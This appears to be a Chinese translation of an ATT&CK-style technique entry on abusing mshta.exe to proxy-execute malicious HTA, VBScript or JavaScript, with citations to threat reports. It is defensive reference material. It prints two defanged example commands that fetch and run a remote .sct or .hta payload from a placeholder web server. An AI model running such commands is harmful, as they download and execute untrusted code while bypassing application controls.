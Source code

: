 ```yaml
---
hide:
  - toc
---
```


# Mshta

对手可能会滥用 mshta.exe 通过受信任的 Windows 实用程序代理执行恶意 .hta 文件和 Javascript 或 VBScript。有几个不同类型的威胁利用 mshta.exe 在初始妥协和代码执行期间。(引用: Cylance Dust Storm) (引用: Red Canary HTA Abuse Part Deux) (引用: FireEye Attacks Leveraging HTA) (引用: Airbus Security Kovter Analysis) (引用: FireEye FIN7 April 2017)  Mshta.exe 是一个执行 Microsoft HTML 应用程序 (HTA) 文件的实用程序。(引用: Wikipedia HTML Application) HTA 是独立应用程序，使用与 Internet Explorer 相同的模型和技术执行，但在浏览器之外。(引用: MSDN HTML Applications)  文件可以通过内联脚本由 mshta.exe 执行：<code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>  它们也可以直接从 URL 执行：<code>mshta http[:]//webserver/payload[.]hta</code>  Mshta.exe 可用于绕过未考虑其潜在滥用的应用程序控制解决方案。由于 mshta.exe 在 Internet Explorer 的安全上下文之外执行，它还绕过了浏览器安全设置。(引用: LOLBAS Mshta)

